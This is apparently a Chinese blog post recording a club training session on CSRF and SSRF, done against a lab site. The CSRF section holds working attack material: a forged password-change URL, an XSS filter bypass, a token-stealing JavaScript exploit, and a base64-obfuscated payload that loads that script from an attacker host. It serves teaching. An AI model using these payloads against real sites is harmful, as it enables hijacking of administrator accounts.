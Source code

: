 ```yaml
---
layout: post
title: "CSRF+SSRF入门(社团培训记录)"
tags: [group]
author: wqpw
---
```


# CSRF+SSRF入门(社团培训记录)

突然想记录下。

## CSRF

```text
CSRF，全名 Cross Site Request Forgery，跨站请求伪造。易与 XSS 混淆，对于 CSRF，其两个关键点是跨站点的请求与请求的伪造。因为用户的敏感操作的每一个参数都可以被攻击者获知，攻击者可以伪造一个完全一样的请求以用户的身份达到恶意目的，即CSRF攻击。
```

![1](/assets/pcs1.png)

这个页面有一个修改管理员密码的功能。

![2](/assets/pcs2.png)

试一下，我们可以得知修改密码的请求是

`http://justforfun.site/vulnerabilities/csrf/?password_new=新密码&password_conf=新密码&Change=Change`

所以如果我们想把管理员的密码变成我们期望的密码，就可以[社工](https://baike.baidu.com/item/%E7%A4%BE%E4%BC%9A%E5%B7%A5%E7%A8%8B%E5%AD%A6/2136830)(社会工程学，动词社工。以前认识一个人关于这个挺有一套的，暂且不表)管理员点击下面的链接(把密码改成hacker)：

`http://justforfun.site/vulnerabilities/csrf/?password_new=hacker&password_conf=hacker&Change=Change`

但是这样太显眼了，管理员~~不一定~~一定不会上当，所以我们需要想办法伪装掩饰一下。

比如这样

![3](/assets/pcs3.png)

只要一打开hacker.site，浏览器就会自动发送修改密码的请求。这样只要骗管理员打开hacker.site就行，成功率有不少提升。

当然，因为只是一个GET请求，所以[方法](https://ctf-wiki.github.io/ctf-wiki/web/csrf/)有很多：

```html
(HTML中能设置src/href等链接地址的标签都可以发起一个GET请求)
<link href="">
<img src="">
<img lowsrc="">
<img dynsrc="">
<meta http-equiv="refresh" content="0; url=">
<iframe src="">
<frame src="">
<script src=""></script>
<bgsound src=""></bgsound>
<embed src=""></bgsound>
<video src=""></video>
<audio src=""></audio>
<a href=""></a>
<table background=""></table>
......
还有CSS样式中的：
@import ""
background:url("")
......
```

下面看一个难一点的：

```php
<?php
if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
        ......下略
```

这段代码里检查了`$_SERVER['SERVER_NAME']`是否在`$_SERVER['HTTP_REFERER']`中出现，然后才会进入修改密码的流程，所以首先我们来康康这两东西是啥。

|||
--|:--:|
`$_SERVER['SERVER_NAME']`|返回当前运行脚本所在的服务器的主机名|
`$_SERVER['HTTP_REFERER']`|链接到当前页面的前一页面的 URL 地址|
|||

所以只要想办法让referer里有`justforfun.site`就可以通过检测了。

除了伪造referer，最简单的方法就是结合同站的XSS。

![4](/assets/pcs4.png)

这里的XSS保护`只过滤了一次<script>`，所以只要类似`<scr<script>ipt>alert(1)</script>`这样就可以弹个框。

不过这里的CSRF还用不上`<script>`，用前面的img标签就行。

![5](/assets/pcs5.png)

然后更难一点

![6](/assets/pcs6.png)

这个会先检测token(令牌)，如果发送的token和系统生成的token不一样就不会改密码，所以我们要想办法取得系统生成的token。而在这里访问一次修改密码的页面就会生成一个token放在html中，所以利用XSS把页面生成的token偷出来就可以进行CSRF攻击了。

下面是CSRF的exp (在hacker.site根目录下，文件名hack.js):

```javascript
/* 相关教程：http://www.w3school.com.cn/ajax/index.asp */
var hack1 = new XMLHttpRequest();
var token = '';
var url = 'http://justforfun.site/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change&user_token=';

hack1.open("GET", "/vulnerabilities/csrf/",true);
hack1.send();
hack1.onreadystatechange=function() {
  //请求发送成功后提取token并修改密码  
  if(hack1.readyState==4 && hack1.status==200) {
      token = hack1.responseText.match(/[0-9a-z]{32}/)[0]; //是一个长为32由0-9a-z组成的字符串
      var hack2 = new XMLHttpRequest();
      hack2.open("GET", url + token, true); //发送修改密码的请求
      hack2.send();
  }
}

```

然后是用于XSS的payload:

```html
<img src=x onerror=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3Muc3JjPSdodHRwOi8vaGFja2VyLnNpdGUvaGFjay5qcyc='))>
```

解密后会执行
`s=createElement('script');body.appendChild(s);s.src='http://hacker.site/hack.js`

即向body内插入一个`<script src='http://hacker.site/hack.js'>`，从而执行`hack.js`中的代码。

效果如下：

![7](/assets/pcs7.png)

那么这里的CSRF入门大概先说到这，当然网上有很多资料。
嗯，现在来看两个例子：

[漏洞科普 对于XSS和CSRF你究竟了解多少](https://www.freebuf.com/articles/web/39234.html)

文中有一些小错误但影响不大。

[绕过Facebook CSRF防护机制实现账户劫持](https://www.freebuf.com/vuls/195814.html)

[“借刀杀人”之CSRF拿下盗图狗后台](https://www.freebuf.com/column/159411.html)

## 然后是SSRF

[来听个课](https://www.bilibili.com/video/av37393329)

[然后看点资料](https://ctf-wiki.github.io/ctf-wiki/web/ssrf/)

单纯的ssrf用处不是很大，一般都会想办法结合其他信息或者漏洞来产生更大的价值。

[谷歌SSRF漏洞解析：利用谷歌应用工具发现谷歌内部DNS信息](https://www.freebuf.com/articles/network/128508.html)

多学习，然后能看懂的漏洞报告、分析就会变多，然后技术自然会上去。

以前印象挺深的一个

[百度某个从SSRF到内网WebShell](http://www.anquan.us/static/bugs/wooyun-2015-099070.html)

结束。